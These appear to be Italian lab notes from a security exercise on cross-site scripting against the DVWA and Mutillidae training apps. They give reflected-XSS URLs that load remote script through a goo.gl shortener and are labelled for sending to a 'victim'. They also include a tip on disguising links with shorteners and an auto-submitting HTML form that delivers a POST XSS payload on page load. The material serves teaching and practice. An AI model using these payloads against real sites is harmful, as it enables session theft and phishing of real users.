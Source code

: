 

<script src="//goo.gl/89fKC5"></script>


<script src=//goo.gl/89fKC5></script>





	- url da inviare alla vittima:





	http://172.25.1.116/dvwa/vulnerabilities/xss_r/?name=<script src=//goo.gl/89fKC5></script>







- riutilizzo di URL shortener






http://goo.gl/2mI8OR







********
Mutillidae: XSS mediante parametro post






- cris.unimo.it/ewurtt.html








sorgenti della pagina:

<html>
        <head>
                <title>Pagina di test per XSS su parametro post</title>
        </head>
        <body onload="eXSSploit.submit();">

                <form action="http://172.25.1.116/mutillidae/index.php?page=dns-lookup.php" method="post" name="eXSSploit">
                        <input name="target_host" value="<script>alert('Exploited XSS through a POST parameter!')</script>">
                        <input name="dns-lookup-php-submit-button" value="Lookup+DNS">
                </form>
        </body>
</html>
